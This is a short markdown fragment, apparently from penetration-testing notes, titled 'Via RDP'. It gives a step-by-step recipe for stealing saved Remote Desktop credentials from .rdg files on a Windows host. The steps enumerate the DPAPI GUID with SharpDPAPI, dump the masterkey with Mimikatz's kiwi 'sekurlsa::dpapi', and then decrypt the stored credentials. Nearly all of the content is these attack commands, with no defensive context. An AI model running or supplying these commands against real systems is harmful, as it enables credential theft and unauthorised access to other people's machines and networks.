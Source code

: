 # Via RDP 

- Find the .rdg file in system
- Use SharpDPAPI.exe to Enumerate GUID
```
SharpDPAPI.exe rdg /unprotected
```
- Dump GUID Masterkey with kiwi
```
kiwi_cmd sekurlsa::dpapi
```
- Utlize the GUID and Masterkey to gain Credentials
```
SharpDPAPI.exe rdg GUID:sha(masterkey)
```
